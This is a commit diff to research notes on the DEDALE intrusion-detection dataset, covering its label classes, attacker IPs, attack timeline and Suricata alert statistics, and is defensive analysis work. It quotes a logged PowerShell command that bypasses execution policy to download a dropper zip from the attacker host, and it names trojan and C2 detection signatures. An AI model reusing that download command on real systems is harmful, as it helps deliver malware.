

Before and after one commit to Akshara-reddy612/AgentSOC, a Markdown page: experiments/DEDALE_DATA_NOTES.md, 2 parts joined by grey strips. Shown at 81% size. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
DEDALE: label classes, attack timeline, Suricata grouping numbers
Website ground truth (class 1/2, attacker and victim IPs, timeline) shows
the 3 unexplained attack-window Suricata alerts are false positives.
1.47 M alerts collapse to 8,461 (signature, src, dst, day) groups; 357
group-days in weeks 3-4 are new relative to the benign weeks.

Co-Authored-By: Claude Opus 5.5 <noreply@anthropic.com>

```diff
--- a/experiments/DEDALE_DATA_NOTES.md
+++ b/experiments/DEDALE_DATA_NOTES.md
@@ -1,12 +1,20 @@
 # DEDALE — what the downloaded files actually contain (inspected 2026-10-11)
 
 Data: `D:\agentsoc_data\dedale\` (outside the repo; CC BY 4.0, DOI 10.57745/Y5JLDG). All counts below come from read-only passes over the zips (nothing extracted). Calendar: weeks 1-2 benign (2024-12-23 .. 2025-01-05), attack in week 3 (8 days), dataset ends 2025-01-19.
+
+## Ground truth from the DEDALE website (read 2026-10-11: dedale.inria.fr/download.html, /attack_scenario.html)
+
+- **Label classes.** System logs: benign / class 1 "malicious logs (clearly linked to a malicious action)" / class 2 "malicious-related logs (consequences or dependent on how the attack step works)"; labelled from the known malicious processes and their sub-processes. Network (Zeek conn.log, per flow): 0 benign, 1 attack, 2 attack-related (not inherently malicious), plus MITRE tactic + technique and a description per malicious flow. Labelling scripts: gitlab.inria.fr/mlanvin/dedale_labeling.
+- **Recommended use:** weeks 1-2 for training/calibration, weeks 3-4 for testing only.
+- **Attacker infrastructure:** 172.19.1.1 (serves the meterpreter dropper), 172.19.2.1 (reverse shell), 172.19.0.2 (C2). Other 172.19.x addresses are simulated internet hosts (e.g. 172.19.0.4-13 send mail to 172.17.0.2), not the attacker.
+- **Timeline (UTC as on the site):** 2025-01-06 10:00 email infection of client 2 (172.16.1.3); 01-08 15:00 lateral movement to client 1 (172.16.1.2) via PrintNightmare; 01-10 11:00 collection on the samba server / DC (172.16.0.2); 01-11 11:00 exfiltration to the attacker; 01-12..01-13 11:40 malware extinction and last beaconing; normal activity before 01-06 and from 01-14.
+- The site also offers DFIR-ORC forensic artefacts for client_1..4, internal_server and dmz_server (not downloaded).
 
 ## Host labels (`system_logs_labels.zip`)
 
 - **Positives only.** Each file is a list of malicious raw events (Elastic/ECS JSON as shipped by winlogbeat/auditbeat). There is no list of benign events and no alert objects; negatives would be "every other event" in the full winlogbeat/auditbeat logs (not downloaded).
 - **Only three hosts are labelled:** CLIENT2 (8,440 events) and CLIENT1 (2,153) via winlogbeat; `internalserver` (5,190) via auditbeat (auditd), all on 2025-01-10.
-- Class 1 ⊂ class 1+2 for both zones (clients: 9,566 of 10,593; server: 4,409 of 5,190). The class-2-only examples look like side effects of attacker processes (e.g. `conhost.exe 0xffffffff -ForceV1`, image loads). **The meaning of class 1 vs class 2 is not stated in the downloaded README** — it is in the DEDALE article / website (not yet read).
+- Class 1 ⊂ class 1+2 for both zones (clients: 9,566 of 10,593; server: 4,409 of 5,190). Class-2-only examples (e.g. `conhost.exe 0xffffffff -ForceV1`, image loads) fit the website's definition of class 2 (malicious-related consequences, see above).
 - Client events by Sysmon event id: 11 FileCreate 6,639; 7 ImageLoad 2,922; 2 FileCreateTime 315; 10 ProcessAccess 141; 18 PipeConnected 123; 5 ProcessTerminate 122; 17 PipeCreated 122; **1 ProcessCreate 121**; 22 DNS 12; plus PowerShell 800/4103/600 (72). Only 195 of 10,593 carry `process.command_line`.
 - Client events by day: 01-06 462, 01-07 195, **01-08 8,038**, 01-09 195, 01-10 837, 01-11 196, 01-12 195, 01-13 475.
 - Example (CLIENT2, 2025-01-06T10:01:05Z): `powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri 'http://172.19.1.1/Bank-of-Nuthington.zip' ...`; 2025-01-08 15:01: `C:\Users\client2\AppData\Local\Temp\svcmon.exe`.
@@ -19,9 +27,24 @@ Data: `D:\agentsoc_data\dedale\` (outside the repo; CC BY 4.0, DOI 10.57745/Y5JL
 - Only 4 signatures first appear after the benign weeks (6 alerts in total):
   - `ET INFO Dotted Quad Host ZIP Request` ×2, 2025-01-06 10:01, 172.16.1.3 -> 172.19.1.1:80 — **matches CLIENT2's labelled Invoke-WebRequest download** (both routers saw it).
   - `ET POLICY SMB Executable File Transfer` ×1, 2025-01-08 15:05, 172.16.1.3 -> 172.16.0.2:445 — within 5 min of 6,714 labelled CLIENT2 events (svcmon.exe).
-  - `ET TROJAN Suspicious POST with Common Windows Process Names` ×1, 2025-01-06 08:10, from 172.16.1.15 — no labelled host event within ±5 min; host not covered by the labels.
-  - `ET TROJAN Backdoor family PCRat/Gh0st CnC traffic` ×2, 2025-01-08, from 172.16.1.30 and 172.16.1.6 to 172.16.0.2:445 — hosts not covered by the labels; status unknown.
-- Ground truth for network data is in the Zeek `conn.log` labels (not downloaded).
+  - `ET TROJAN Suspicious POST with Common Windows Process Names` ×1, 2025-01-06 08:10, from 172.16.1.15 — before the 10:00 infection, from a host the attack never touched: **false positive** (per the published timeline).
+  - `ET TROJAN Backdoor family PCRat/Gh0st CnC traffic` ×2, 2025-01-08, from 172.16.1.30 and 172.16.1.6 to the DC's SMB port — hosts the attack never touched: **false positives** (per the published timeline).
+- Alerts touching the attacker IPs (172.19.1.1 / 172.19.2.1 / 172.19.0.2): only the 2 ZIP-download copies. The C2 and reverse-shell traffic raised **no** Suricata alert.
+- Ground truth for network data is in the Zeek `conn.log` labels (not downloaded); for Suricata alerts it can also be derived from the published timeline + attacker/victim IPs.
+
+### Grouping (how many distinct cases the 1.47 M alerts are)
+
+| Unit | Count |
+|:--|--:|
+| raw alerts (both routers) | 1,465,627 |
+| after dropping the second router's copy (same sid + 5-tuple within 5 s) | 1,195,507 (weeks 1-2: 576,565; weeks 3-4: 618,942) |
+| groups (signature, src, dst, hour) | 39,755 |
+| groups (signature, src, dst, day) | 8,461 |
+| groups (signature, src, dst), whole dataset | 1,042 |
+| weeks 3-4 (signature, src, dst, day) groups | 4,413 |
+| … of which the (signature, src, dst) was never seen in weeks 1-2 | **357** (289 distinct) |
+
+The novel groups are mostly new external mail servers talking to 172.17.0.5 and new external IPs hitting clients — i.e. benign novelty — plus the attack's ZIP download.
 
 ## User behaviour (`userbehaviour_logs.zip`)
 
```
Also changed, not shown: other parts of experiments/DEDALE_DATA_NOTES.md (+2 -1 lines), PROJECT_STATUS.md (+1 -1 lines), RESEARCH_LOG.md (+14 -0 lines).
